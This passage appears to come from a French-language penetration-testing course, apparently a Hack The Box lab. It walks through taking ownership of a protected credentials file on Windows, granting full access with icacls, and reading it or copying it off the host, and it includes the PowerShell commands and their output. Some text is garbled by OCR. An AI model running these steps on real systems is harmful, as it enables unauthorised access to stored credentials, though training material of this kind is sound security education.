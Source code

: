 #### Confirmation du changement de propriétaire

Nous pouvons confirmer la propriété en utilisant la même commande qu'avant. Nous voyons maintenant que notre compte d'utilisateur est le propriétaire du fichier.

Confirmation du changement de propriétaire

```
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

Propriétaire du répertoire de noms
---- --------- -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student

```

#### Modification de l'ACL du fichier

Il se peut que nous ne puissions toujours pas lire le fichier et que nous devions modifier l'ACL du fichier à l'aide de `icacls` pour pouvoir le lire.

Modification de l'ACL du fichier

```
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : L'accès au chemin 'C:\Department Shares\Private\IT\cred.txt' est refusé.
A la ligne:1 car:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
     + CategoryInfo : PermissionDenied : (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
    horizedAccessExceptionhorizedAccessExceptionhorizedAccessException
     + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand

```

Accordons à notre utilisateur tous les privilèges sur le fichier cible.

Modification de l'ACL du fichier

```
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

fichier traité : C:\Department Shares\Private\IT\cred.txt
Traitement réussi de 1 fichiers ; Échec du traitement de 0 fichiers

```

#### Lecture du fichier

Si tout s'est déroulé comme prévu, nous pouvons maintenant lire le fichier cible à partir de la ligne de commande, l'ouvrir si nous avons un accès RDP ou le copier dans notre système d'attaque pour un traitement supplémentaire (comme déchiffrer le mot de passe d'une base de données KeePass.
